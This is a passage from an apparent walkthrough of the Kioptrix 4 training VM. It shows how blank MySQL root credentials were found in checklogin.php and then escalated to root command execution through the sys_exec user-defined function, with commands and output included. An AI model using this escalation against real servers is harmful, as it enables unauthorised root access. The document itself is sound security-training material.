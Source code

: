 ## Low Shell Enumeration

Found `MySQL` creds from `checklogin.php` file

1. We can connect to `MySLQL` as `root` without password.
```bash
john@Kioptrix4:~$ cat /var/www/checklogin.php 
<?php
ob_start();
$host="localhost"; // Host name
$username="root"; // Mysql username
$password=""; // Mysql password
$db_name="members"; // Database name
$tbl_name="members"; // Table name
```
2. `MySQL` is running as `root`
```bash
root      4034  0.0  0.1   1772   524 ?        S    01:32   0:00 /bin/sh /usr/bin/mysqld_safe
root      4076  0.0  4.6 127140 16452 ?        Sl   01:32   0:07 /usr/sbin/mysqld   
                    --basedir=/usr --datadir=/var/lib/mysql --user=root --pid-file=/var/run/mysqld/mysqld.pid 
                    --skip-external-locking --port=3306 --socket=/var/run/mysqld/my
root      4078  0.0  0.1   1700   556 ?        S    01:32   0:00 logger -p daemon.err -t mysqld_safe -i -t mysqld
```

Since `MySQL` is running as `root`, can use it to escalate our privilege to `root` using a MySQL UDF or [User Defined Function.](https://bernardodamele.blogspot.com/2009/01/command-execution-with-mysql-udf.html)

## Root Shell

So essentially we can execute command as `root` using `sys_exec`.

Let's connect to `MySQL` and try it out.
```bash
john@Kioptrix4:~$ mysql -h localhost -u root -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 7
Server version: 5.0.51a-3ubuntu5.4 (Ubuntu)

Type 'help;' or '\h' for help. Type '\c' to clear the buffer.


mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema | 
| members            | 
| mysql              | 
+--------------------+
3 rows in set (0.01 sec)

mysql> select sys_exec('touch /root/test');
+------------------------------+
| sys_exec('touch /root/test') |
+------------------------------+
| NULL                         | 
+------------------------------+
1 row in set (0.00 sec)

mysql> exit
Bye
```